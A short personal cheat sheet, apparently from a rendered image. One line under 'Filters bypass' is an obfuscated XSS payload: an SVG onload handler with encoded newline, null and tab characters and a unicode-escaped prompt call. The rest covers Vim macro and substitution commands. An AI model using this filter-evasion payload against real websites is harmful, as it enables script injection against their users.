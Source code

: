 Filters bypass

    <svg%0Ao%00nload=%09((pro\u006dpt))()//
    

  

### Vim :

record macro :

    q<letter><commands>q
    

execute macro :

    <number>@<letter>
    

re execute macro :

    @@
    

global switch :

    :%s/item1/item2/g
